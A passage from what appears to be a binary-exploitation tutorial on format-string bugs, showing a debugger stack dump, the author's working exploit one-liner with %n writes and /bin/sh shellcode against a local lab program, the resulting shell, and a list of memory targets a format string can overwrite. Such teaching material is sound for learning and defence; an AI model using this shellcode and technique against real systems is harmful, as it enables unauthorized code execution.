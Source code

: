 ```bash
0xffffce90:	0xf7e48259	0xf7fe1a0a	0xf7dc46e8	0xf7fcb410
0xffffcea0:	0xf7ffd000	0x080482a8	0x00000001	0x00000001
0xffffceb0:	0xf7dcdedc	0xf7dc658c	0xf7dce76c	0xf7fcb110
0xffffcec0:	0xffffcf14	0x0804c000	0xf7fa8000	0xf7fa8000
0xffffced0:	0xffffcfd8	0xf7fe7cd4	0xffffd014	0xf7e595ce
0xffffcee0:	0xf7fa8000	0xf7fa8000	0x0804c000	0x080491f9
0xffffcef0:	0xffffcf08	0xffffd28c	0x000000c8	0x080491d4
0xffffcf00:	0x00000000	0x00000000	0xffffcfec	0xffffcfee
0xffffcf10:	0x30333525	0x25753432	0x256e2436	0x30353231
0xffffcf20:	0x37257533	0x0beb6e24	0x31c0315b	0xb0d231c9
0xffffcf30:	0xe880cd0b	0xfffffff0	0x6e69622f	0x0068732f
0xffffcf40:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf50:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf60:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf70:	0x00000000	0x00000000	0x00000000	0x00000000
gef➤
```

You can see that the address where the strncpy function placed our input string is `0xffffcf08`. Thus, you need to determine the offset and do all calculations for the exploit. I just show you my final exploit.

```bash
shogun@kyoto:~/repos/basics-of-pwn/content/format-string$ ./format-string $(python -c 'print "\x4c\xd0\xff\xff" + "\x4e\xd0\xff\xff" + "%53120u" + "%6$n" + "%12407u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
L���N���

=========================
The long empty output here...
=========================

200�$ w
 11:30:04 up 37 min,  1 user,  load average: 0.42, 0.39, 0.35
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               10:53   37:01   1:42   1.25s xfce4-session
$
```

Okay, you can say that if we wouldn't have a ltrace tool then we couldn't exploit the vulnerability. It is not true. Don't forget about brute-force attack and pwntools. With some brute-force script that will do all calculations and execute the exploit sooner or later, you will get a shell.

## What else can you overwrite with a format string

With the format string, you will discover many ways of exploitation.

Format string variants of exploitation:

1. Overwrite the saved return address.
2. Overwrite another application-specific function pointer.
3. Overwrite a pointer to an exception handler, then cause an exception.
4. Overwrite a GOT entry.
5. Overwrite the atexit handler.
6. Overwrite entries in the DTORS section.
7. Turn a format string bug into a stack or heap overflow by overwriting a null terminator with non-null data.
8. Write application-specific data such as stored UID or GID values with values of your choice.
9. Modify stringa containing commands to reflect commands of your choice.
